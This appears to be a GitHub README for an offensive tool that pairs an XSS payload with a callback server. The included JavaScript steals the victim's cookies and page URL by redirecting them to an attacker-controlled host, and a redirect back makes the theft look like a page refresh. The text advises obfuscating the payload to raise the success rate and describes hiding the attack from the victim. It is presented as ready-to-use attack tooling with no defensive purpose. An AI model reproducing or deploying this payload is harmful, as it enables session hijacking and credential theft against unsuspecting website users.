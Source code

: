 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Referer), although this time with a token in the URL anchor, preventing your XSS payload from reactivating.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly. please do not open issues if it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
